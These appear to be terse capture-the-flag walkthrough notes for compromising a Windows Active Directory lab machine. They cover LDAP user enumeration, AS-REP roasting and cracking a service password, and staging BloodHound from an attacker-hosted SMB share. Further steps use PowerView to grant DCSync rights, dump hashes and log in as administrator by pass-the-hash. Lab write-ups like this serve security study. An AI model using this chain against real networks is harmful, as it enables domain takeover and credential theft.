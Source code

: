 IP: 10.10.10.161
Nmap Scans:
Top 1000
```bash
PORT    STATE SERVICE      VERSION
88/tcp  open  kerberos-sec Microsoft Windows Kerberos (server time: 2022-04-20 14:46:55Z)
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
464/tcp open  kpasswd5?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb2-security-mode: SMB: Couldn\'t find a NetBIOS name that works for the server. Sorry!
|_smb2-time: ERROR: Script execution failed (use -d to debug)

```
All Ports
```bash
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
```

smb is empty?

ldap time
See if it works
```bash
ldapsearch -h 10.10.10.161 -x
# extended LDIF
#
# LDAPv3
# base <> (default) with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# search result
search: 2
result: 32 No such object
text: 0000208D: NameErr: DSID-0310021B, problem 2001 (NO_OBJECT), data 0, best 
 match of:
	''


# numResponses: 1
```

Get the Domain Name.
```bash
ldapsearch -h 10.10.10.161 -x -s base namingcontexts
# extended LDIF
#
# LDAPv3
# base <> (default) with scope baseObject
# filter: (objectclass=*)
# requesting: namingcontexts 
#

#
dn:
namingContexts: DC=htb,DC=local
namingContexts: CN=Configuration,DC=htb,DC=local
namingContexts: CN=Schema,CN=Configuration,DC=htb,DC=local
namingContexts: DC=DomainDnsZones,DC=htb,DC=local
namingContexts: DC=ForestDnsZones,DC=htb,DC=local

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```

ldapsearch -h 10.10.10.161 -x -b "DC=htb,DC=local" > [[ldap-anon]]
 Groups
 ```bash
cat ldap-anon.md | grep -i memberof
memberOf: CN=Guests,CN=Builtin,DC=htb,DC=local
memberOf: CN=System Managed Accounts Group,CN=Builtin,DC=htb,DC=local
memberOf: CN=Denied RODC Password Replication Group,CN=Users,DC=htb,DC=local
memberOf: CN=Users,CN=Builtin,DC=htb,DC=local
memberOf: CN=Guests,CN=Builtin,DC=htb,DC=local
memberOf: CN=Denied RODC Password Replication Group,CN=Users,DC=htb,DC=local
memberOf: CN=Exchange Install Domain Servers,CN=Microsoft Exchange System Obje
memberOf: CN=Managed Availability Servers,OU=Microsoft Exchange Security Group
memberOf: CN=Exchange Trusted Subsystem,OU=Microsoft Exchange Security Groups,
memberOf: CN=Exchange Servers,OU=Microsoft Exchange Security Groups,DC=htb,DC=
memberOf: CN=Windows Authorization Access Group,CN=Builtin,DC=htb,DC=local
memberOf: CN=Pre-Windows 2000 Compatible Access,CN=Builtin,DC=htb,DC=local
memberOf: CN=Pre-Windows 2000 Compatible Access,CN=Builtin,DC=htb,DC=local
memberOf: CN=Users,CN=Builtin,DC=htb,DC=local
memberOf: CN=Users,CN=Builtin,DC=htb,DC=local
memberOf: CN=IIS_IUSRS,CN=Builtin,DC=htb,DC=local
memberOf: CN=Exchange Servers,OU=Microsoft Exchange Security Groups,DC=htb,DC=
memberOf: CN=Managed Availability Servers,OU=Microsoft Exchange Security Group
memberOf: CN=Windows Authorization Access Group,CN=Builtin,DC=htb,DC=local
memberOf: CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Group
```

Usersnames
[[personObject]]
```bash
ldapsearch -h 10.10.10.161 -x -b "DC=htb,DC=local" '(objectClass=Person)' sAMAccountName | grep sAMAccountName | awk '{print $2}'
requesting:
sebastien
lucinda
andy
mark
svc-alfresco
```
Create own password list cause rockyou is too good

magic
```bash
hashcat --force --stdout passwords.txt -r /usr/share/hashcat/rules/best64.rule -r /usr/share/hashcat/rules/toggles1.rule |sort -u | awk 'length($0) > 7'
```

Impacket time
SIDENOTE:
	GetNPUsers is just kerberoasting tl;dr windows sends hash for some dumb reason and now we have it
	SPNs use kerberos for authentication.
Use GetNPUsers and get kerberos hash crack with hashcat
password is s3rvice

use creds for smb (svc-alfresco:s3rvice)
```
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
```

on box so Winpeas
nothing really so bloodhound cause active dir

but first we need ot put bloodhound on the box.
 smb server
 ```bash
 ./smbserver.py Name $(pwd) -smb2support -user kali -password kali
 ```

need to make the correct object on the box
```powershell
$pass = convertto-securestring 'kali' -AsPlainText -Force
$cred - New-Object System.Management.Automation.PSCredential('kali',$pass)
New-PSDrive - Name kali -PSProvider FileSystem -Credential $cred -Root \\10.10.14.23\Name
```

Its a graph
lets make our own user cause we can
add user to "Exchange Windows Permissions" with net group

PowerView time.
Do the object thing again
```powershell
$pass = convertto-securestring 'kali' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('HTB\kali',$pass)
Add-DomainObjectAcl -Credential $cred -TargetIdentity htb.local -Rights DCSync
```
dump sam
the login with psexec as admin with the hash